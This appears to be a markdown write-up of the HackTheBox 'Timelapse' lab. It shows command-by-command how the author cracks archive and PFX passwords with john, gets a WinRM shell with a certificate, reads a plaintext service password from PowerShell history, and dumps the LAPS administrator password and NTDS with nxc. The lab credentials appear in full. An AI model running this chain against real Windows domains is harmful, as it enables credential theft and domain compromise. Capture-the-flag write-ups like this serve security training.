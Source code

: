 ```yaml
---
title: HackTheBox-Timelapse
date: 2024-12-24 09:42:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [LAPS]     # TAG names should always be lowercase
---
```


## SMB-enum

    ➜  timelapse nxc smb 10.10.11.152
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)


    ➜  timelapse smbclient -L \\DC01
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Shares          Disk      
            SYSVOL          Disk      Logon server share

## crack-zip-file

    ➜  timelapse zip2john winrm_backup.zip > winrm.hash

    ➜  timelapse john winrm.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
    1g 0:00:00:00 DONE (2024-12-23 12:49) 2.040g/s 7096Kp/s 7096Kc/s 7096KC/s surkerior..supalove
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 

## crack-pfx-file

    ➜  timelapse pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.hash

    ➜  timelapse john legacyy_dev_auth.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
    Cost 1 (iteration count) is 2000 for all loaded hashes
    Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    thuglegacy       (legacyy_dev_auth.pfx)   

## create-cert-and-key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
    Enter Import Password:
    Enter PEM pass phrase:
    Verifying - Enter PEM pass phrase:
    ➜  timelapse openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key     
    Enter pass phrase for legacyy_dev_auth.key-enc:
    writing RSA key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
    Enter Import Password:

### winrm-shell-with-it

    ➜  timelapse evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Warning: SSL enabled
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\legacyy\Documents> 

file read console-history

    *Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine> type ConsoleHost_history.txt
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit

## LAPS

    ➜  timelapse evil-winrm -i timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S 
    *Evil-WinRM* PS C:\Users\svc_deploy\Documents> net users svc_deploy
    User name                    svc_deploy
    Full Name                    svc_deploy
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            10/25/2021 11:12:37 AM
    Password expires             Never
    Password changeable          10/26/2021 11:12:37 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   10/25/2021 11:25:53 AM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use
    Global Group memberships     *LAPS_Readers         *Domain Users
    The command completed successfully.
    
GRAB ADMIN-PASS-in-one command

    ➜  timelapse nxc smb timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps --ntds
    [!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.152    445    DC01             [-] DC01\administrator:iobJK3@;Zk.2sgS;Gqf4+or+ STATUS_LOGON_FAILURE


Video Walwalkthrough
[WATCH!](https://youtu.be/A1etiDBywBY)